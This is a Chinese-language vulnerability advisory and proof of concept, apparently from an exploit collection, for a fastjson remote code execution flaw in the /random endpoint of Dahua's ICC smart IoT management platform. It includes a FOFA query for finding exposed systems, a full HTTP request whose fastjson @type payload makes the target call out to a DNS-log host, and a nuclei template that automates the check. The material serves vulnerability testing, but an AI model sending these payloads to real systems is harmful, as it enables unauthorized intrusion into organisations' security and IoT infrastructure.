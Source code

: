 **漏洞名称**

大华ICC智能物联综合管理平台random远程代码执行漏洞

**漏洞影响**

大华ICC智能物联综合管理平台 版本不详

**漏洞描述**

大华ICC智能物联综合管理平台是一个集成了物联网技术、大数据分析、云计算等先进技术的综合性管理平台。它致力于为企业提供一站式的物联网解决方案，帮助企业实现设备连接、数据收集、分析与应用，从而提高企业的运营效率、降低成本，并推动物联网行业的创新与发展。该系统random接口处存在fastjson远程代码执行漏洞。

**FOFA搜索语句**

icon_hash="-1935899595"

**漏洞复现**

借助http://dnslog.pw/dns/进行复现，随机生成一个账号复制payload替换下面的farr9frh.dnslog.pw，向靶场发送如下数据包

```yaml
POST /evo-runs/v1.0/auths/sysusers/random HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 161
Accept-Encoding: gzip
Connection: close
Content-Type: application/json;charset=utf-8

{
  "a":{
    "@type":"com.alibaba.fastjson.JSONObject",
    {"@type":"java.net.URL","val":"http://farr9frh.dnslog.pw"}
  }""
}
```

**nuclei poc**

```yaml
id: dahua-icc-random-rce

info:
  name: 大华ICC智能物联综合管理平台random远程代码执行漏洞
  author: fgz
  severity: critical
  description: 大华ICC智能物联综合管理平台是一个集成了物联网技术、大数据分析、云计算等先进技术的综合性管理平台。它致力于为企业提供一站式的物联网解决方案，帮助企业实现设备连接、数据收集、分析与应用，从而提高企业的运营效率、降低成本，并推动物联网行业的创新与发展。该系统random接口处存在fastjson远程代码执行漏洞。
  metadata:
    max-request: 1
    fofa-query: icon_hash="-1935899595"
    verified: true

requests:
  - raw:
      - |+
        POST /evo-runs/v1.0/auths/sysusers/random HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
        Content-Type: application/json;charset=utf-8
        Accept-Encoding: gzip
        Connection: close
        
        {
          "a":{
            "@type":"com.alibaba.fastjson.JSONObject",
            {"@type":"java.net.URL","val":"http://{{interactsh-url}}"}
          }""
        }

    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, "dns")
        condition: and
```

